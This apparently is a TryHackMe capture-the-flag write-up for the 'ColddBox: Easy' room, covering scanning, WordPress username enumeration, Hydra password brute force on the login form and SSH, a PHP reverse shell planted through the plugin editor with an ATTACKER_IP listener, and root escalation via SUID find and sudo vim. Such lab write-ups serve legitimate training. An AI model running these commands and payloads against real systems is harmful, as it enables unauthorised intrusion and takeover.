

# ColddBox: Easy

**Platform:** TryHackMe

**Room:** ColddBox: Easy

**Room URL:** [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## 1. Reconnaissance

### 1.1 Host Discovery and Port Scanning

The initial reconnaissance phase was performed using Nmap to identify open TCP ports and determine the services and their versions running on the target machine.

The following command was executed:

```bash
sudo nmap -sS -sV -oN scan.txt -p- 10.112.145.221
```

**Nmap Output:**

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-11-05 10:10 CET
Nmap scan report for 10.112.145.221
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.06 seconds
```

**Output Analysis:**

- **Port 80 (HTTP):** Running Apache HTTP Server 2.4.18 on Ubuntu. This service will be investigated during web enumeration.
- **Port 4512 (SSH):** Running OpenSSH 7.2p2. SSH is accessible on a non-standard port (4512), which may be relevant during further enumeration.

### 1.2 NSE Default Script Scanning

Nmap's default NSE scripts were executed against the previously discovered ports to gather additional information about the running services.

**Command:**

```bash
nmap -sC -p 80,4512 10.112.145.221
```

- **Port 80 (HTTP):** The web server is running WordPress 4.1.31, with the page title _ColddBox | One more machine_. This identifies WordPress as the primary target for further web enumeration.
- **Port 4512 (SSH):** The port is open, but Nmap did not identify the service during this scan.

The WordPress version will be investigated further to identify potential vulnerabilities and misconfigurations.

### 1.3 Directory Enumeration with Gobuster

Gobuster was used to perform directory and file discovery on the web server using the SecLists `big.txt` wordlist to identify potentially interesting paths.

**Command:**

```bash
gobuster dir -u http://10.112.145.221/ -w ~/wordlists/SecLists/Discovery/Web-Content/big.txt
```

**Results:**

| Path             | Status Code | Description      |
| ---------------- | ----------- | ----------------- |
| `/.htaccess`     | 403         | Access Forbidden |
| `/.htpasswd`     | 403         | Access Forbidden |
| `/hidden`        | 301         | Redirect         |
| `/server-status` | 403         | Access Forbidden |
| `/wp-admin`      | 301         | Redirect         |
| `/wp-content`    | 301         | Redirect         |
| `/wp-includes`   | 301         | Redirect         |

**Output Analysis:**

Gobuster identified several interesting directories:

- `/hidden`: An additional directory that requires further investigation.
- `/wp-admin`: WordPress administration panel.
- `/wp-content`: Contains WordPress themes, plugins and uploaded files.
- `/wp-includes`: Contains WordPress core files.

### 1.4 User Enumeration

During the inspection of the `/hidden/` endpoint, a message was discovered revealing three potential usernames. The message indicates that C0ldd changed Hugo's password and that Philip is requesting it so Hugo can continue uploading articles.

**Evidence:**


**Discovered Users:**

- `C0ldd`
- `Hugo`
- `Philip`

C0ldd appears to have a certain level of authority, as he was able to change Hugo's password. This suggests that C0ldd may have administrative privileges within the WordPress environment.

This information could be useful during further user enumeration and authentication testing.

### 1.5 WordPress Login Enumeration

After identifying the potential usernames, the WordPress administration panel was accessed through `/wp-admin/`. The server automatically redirected the request to the WordPress login page.

**Authentication Testing:**

The previously discovered usernames (`C0ldd`, `Hugo` and `Philip`) were tested using an intentionally incorrect password.

The login page returned different error messages depending on whether the supplied username existed:

- **Valid username:** `ERROR: The password you entered for the username C0ldd is incorrect.`
- **Invalid username:** `ERROR: Invalid username.`

**Evidence:**



The different authentication error messages reveal that the WordPress login page discloses whether a username exists in the database.

This behavior allows username enumeration without requiring valid credentials.

## 2. Initial Access

### 2.1 Password Brute-Force with Hydra

After confirming the existence of the `C0ldd` account, Hydra was used to perform a password brute-force attack against the WordPress login form using the `rockyou.txt` wordlist.

**Command:**

```bash
hydra -l C0ldd -P ~/wordlists/rockyou.txt 10.112.145.221 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect"
```

**Results:**

Hydra successfully identified valid credentials for the `C0ldd` account.

| Username | Password     |
| -------- | ------------ |
| C0ldd    | `[XXXXXXXX]` |

The brute-force attack was successful. Hydra identified the correct password for the `C0ldd` account using the `rockyou.txt` wordlist.

The discovered credentials can now be used to authenticate to the WordPress administration panel and investigate the available functionality.

## 3. Exploitation

### 3.1 WordPress Plugin Editor – Reverse Shell

After gaining access to the WordPress administration dashboard, the installed plugins were inspected. It was discovered that the WordPress Plugin Editor allowed the modification of plugin PHP source code.

This functionality can be abused to execute arbitrary PHP code on the server, potentially allowing remote command execution.

**Step 1 – Set up a Netcat Listener**

Before triggering the reverse shell, a Netcat listener was started on the attacking machine to receive the incoming connection.

```bash
nc -lvnp 6767
```

**Step 2 – Access the Plugin Editor**

From the WordPress dashboard, navigate to:

`Plugins → Plugin File Editor`

Select an installed plugin from the dropdown menu and open its PHP source files for editing.

**Step 3 – Inject the PHP Reverse Shell**

The PHP reverse shell script from the following repository was used:

[Pentestmonkey – PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Before inserting it, the following variables must be configured with the attacking machine's IP address and listening port:

```php
$ip = 'ATTACKER_IP';  // Attacker's IP address
$port = 6767;         // Netcat listening port
```

The modified script was pasted into the selected plugin's PHP file, replacing or prepending the existing code, and saved via the **"Update File"** button. At this point, the plugin file on the server contains the malicious payload, but it has not been executed yet.

**Step 4 – Trigger Execution**

Saving the file in the editor does not execute the code by itself — the plugin must actually run on the server for the payload to fire.

To do this, navigate to:

`Plugins → Installed Plugins`

and activate (or, if already active, deactivate and reactivate) the plugin whose file was modified. WordPress loads and executes the plugin's PHP code during this action, which triggers the embedded reverse shell.

**Step 5 – Verify the Connection**

If the previously started Netcat listener receives an incoming connection, the reverse shell executed successfully:

```text
listening on [any] 6767 ...
connect to [ATTACKER_IP] from [TARGET_IP]
```

**Alternative Method – Upload via Media Library**

If plugin activation does not trigger the reverse shell, an alternative is to upload the payload directly through WordPress's built-in media upload functionality:

1. Save the PHP reverse shell script (configured with the attacker's IP and port) as a local file, e.g. `shell.php`.
2. From the WordPress dashboard, navigate to `Media → Add New` and upload the file.

3. Once uploaded, open the file's details in the Media Library and copy its direct URL path.
4. With the Netcat listener already running, request the uploaded file's URL in the browser (or via `curl`). This causes the web server to execute the PHP code, triggering the reverse shell.

### 3.2 Reverse Shell Upgrade

After obtaining the reverse shell, it was upgraded to a fully interactive Bash shell using Python 3.

The following command was executed on the target machine:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## 4. Privilege Escalation

### 4.1 Searching for User and Root Flags

After obtaining the reverse shell, the search for the flag files began.

First, the permissions of `user.txt`, located in `/home/c0ldd/`, were inspected.

```bash
ls -l /home/c0ldd/user.txt
```

The file permissions were:

```text
-rw-rw---- 1 c0ldd c0ldd 53 Sep 24 2020 user.txt
```

Since the current user was `www-data`, the file could not be read, as it was accessible only to its owner and group.

### 4.2 Enumerating SUID Binaries

To find a possible privilege escalation vector, the filesystem was searched for binaries with the SUID bit enabled.

```bash
find / -type f -perm -4000 2>/dev/null
```

**Command Explanation:**

- `find /`: searches the filesystem starting from the root directory.
- `-type f`: searches only for regular files.
- `-perm -4000`: identifies files with the SUID permission bit enabled.
- `2>/dev/null`: suppresses permission-denied errors.

Among the results, `/usr/bin/find` was identified as particularly interesting because it had the SUID bit enabled.

### 4.3 Exploiting SUID on Find

Since the `find` binary had SUID enabled, it was used to spawn a shell while preserving its effective privileges.

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

After executing the command, the current user and privileges were checked:

```bash
id
```

Output:

```text
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

The output confirmed that the effective user ID (`euid`) was `0`, meaning root-level privileges had been obtained.

### 4.4 Retrieving the User Flag

With root-level privileges, the `/home/c0ldd/` directory was accessed and `user.txt` was read.

```bash
cd /home/c0ldd
cat user.txt
```

The flag was successfully retrieved.

### 4.5 Retrieving the Root Flag

Since root-level privileges had already been obtained, the `/root` directory could be accessed and the flag read.

```bash
cd /root
cat root.txt
```

The flag was successfully retrieved.

**Privilege Escalation Successful!**

## 5. Alternative Privilege Escalation Path

### 5.1 Retrieving Credentials from wp-config.php

Another possible privilege escalation path involves retrieving credentials from the WordPress configuration file.

First, `wp-config.php` was searched for:

```bash
find / -type f -name "wp-config.php" 2>/dev/null
```

Output:

```text
/var/www/html/wp-config.php
```

Next, its permissions were checked:

```bash
ls -l /var/www/html/wp-config.php
```

Output:

```text
-rw-rw-rw- 1 www-data www-data 3056 Oct 14 2020 wp-config.php
```

The file was readable and writable by everyone, which represents a significant security misconfiguration.

The database configuration parameters were then extracted using `grep`:

```bash
grep -E "DB_NAME|DB_USER|DB_PASSWORD|DB_HOST" wp-config.php
```

Output:

```php
define('DB_NAME', 'colddbox');
define('DB_USER', 'c0ldd');
define('DB_PASSWORD', 'xxxxxxxxxxxxx');
define('DB_HOST', 'localhost');
```

The configuration file revealed valid database credentials for the `c0ldd` user.

### 5.2 Switching to the c0ldd User

An attempt was made to reuse the discovered password to switch from `www-data` to `c0ldd`.

```bash
su c0ldd
```

After entering the recovered password, access to the account was successfully obtained.

```text
c0ldd@ColddBox-Easy:/var/www/html$
```

The user flag could now be read:

```bash
cat /home/c0ldd/user.txt
```

The flag was successfully retrieved.

### 5.3 Enumerating Sudo Permissions

After switching to `c0ldd`, the commands the user was allowed to execute with elevated privileges were checked.

```bash
sudo -l
```

After entering the password, the following permissions were displayed:

```text
Matching Defaults entries for c0ldd on ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User c0ldd may run the following commands on ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

The output showed that `c0ldd` could execute three programs as root.

The most interesting one was `/usr/bin/vim`, since Vim can execute commands through its built-in command interface.

### 5.4 Exploiting Sudo Permissions Through Vim

Vim was launched with root privileges:

```bash
sudo /usr/bin/vim
```

Inside Vim, the following commands were executed:

```vim
:set shell=/bin/bash
:shell
```

**Command Explanation:**

- `:set shell=/bin/bash`: configures Vim to use Bash as its command shell.
- `:shell`: launches an interactive shell from within Vim.

Since Vim was running with root privileges, the spawned shell inherited those privileges.

The result was verified:

```bash
id
```

Output:

```text
uid=0(root) gid=0(root) groups=0(root)
```

The output confirmed successful privilege escalation to root.

### 5.5 Retrieving the Root Flag

Finally, the root flag was accessed:

```bash
cat /root/root.txt
```

The flag was successfully retrieved.

**Privilege Escalation Successful!**

This alternative attack path demonstrates how exposed application configuration files can reveal reusable credentials, while excessive sudo permissions on powerful utilities such as Vim can lead to complete system compromise.

## 6. Alternative Initial Access – SSH Brute Force

### 6.1 SSH Password Brute-Force with Hydra

As an alternative approach, it was decided to test whether the discovered user `c0ldd` could authenticate through SSH.

Although the account was identified during the previous enumeration, SSH access was not guaranteed. Nevertheless, a password brute-force attack was performed using Hydra and the `rockyou.txt` wordlist.

The SSH service was previously identified on the non-standard port `4512`.

The following command was executed:

```bash
hydra -l c0ldd -P ~/wordlists/rockyou.txt -t 4 ssh://10.112.186.112:4512
```

### 6.2 Obtaining Valid SSH Credentials

Hydra successfully identified valid credentials:

```text
[4512][ssh] host: 10.112.186.112
login: c0ldd
password: [xxxxxxxxxxx]

1 of 1 target successfully completed, 1 valid password found
```

This confirmed that the `c0ldd` account was also accessible through SSH.
